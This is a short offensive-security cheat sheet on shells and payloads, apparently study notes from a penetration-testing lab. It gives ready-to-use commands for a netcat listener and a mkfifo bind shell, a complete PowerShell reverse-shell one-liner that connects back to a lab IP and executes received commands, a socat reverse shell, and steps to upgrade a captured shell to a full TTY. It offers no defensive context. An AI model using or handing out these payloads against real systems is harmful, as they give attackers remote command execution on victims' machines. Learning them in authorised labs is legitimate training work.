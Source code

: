 # Shells and payloads

**Discover environmental variables of a system to identify the shell language**

```shell
env
```

#### Start netcat listener on a specified port

```bash
sudo nc -lvnp <port #>
```

#### Connect to a netcat listener

```bash
nc -nv <ip_address> <port>
```

#### Bind shell using netcat

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

#### PowerShell Reverse Shell

```powershell
### PowerShell one-liner used to connect back to a listener
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### Reverse Shell Upgrades

#### Python Shell Upgrade

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

#### Full TTY Upgrade

```bash
stty raw -echo; fg
reset
xterm
```

#### Socat Reverse Shell

```bash
socat TCP:10.10.14.113:443 EXEC:/bin/bash
```
